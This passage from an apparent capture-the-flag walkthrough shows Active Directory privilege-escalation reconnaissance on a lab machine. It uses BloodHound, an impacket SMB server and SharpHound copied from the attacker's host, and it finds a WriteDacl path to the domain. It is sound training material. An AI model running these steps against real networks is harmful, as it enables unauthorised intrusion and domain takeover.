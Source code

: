 ## Steps (root/system)

I used a tool called Bloodhound to look for privilege escalation paths

> [Bloodhound](https://bloodhound.readthedocs.io/en/latest/index.html) uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

On my box I started neo4j and started bloodhound

```
neo4j console
bloodhound
```

I started and smb server using the tool from impacket in preperation to copy files to the target.

```
~/tools/impacket/examples/smbserver.py share `pwd`
```

I copied Sharphound to the target and ran it with the -c all parameter to collect all data. Sharphound collects data from the directory and saves it to a zip file which can be imported into bloodhound for analysis.

```
xcopy \\10.10.14.18\share\SharpHound.exe
sharphound.exe -c all 
```

I copied the resulting zip file back to my box and imported it into bloodhound. 

![image](assets/81176786-a9bd7c00-8f73-11ea-93f1-9e5ab73a92b1.png)

After running a few queries I noticed something interesting after running "shortest paths to unconstrained delegation systems". The svc-alfresco, is in the group "service accounts", which a member of "privileged it accounts", which is a member of "account operators", which is a member of "Exchange Windows Permissions" which has the "WriteDacl" permission on the htb.local domain.
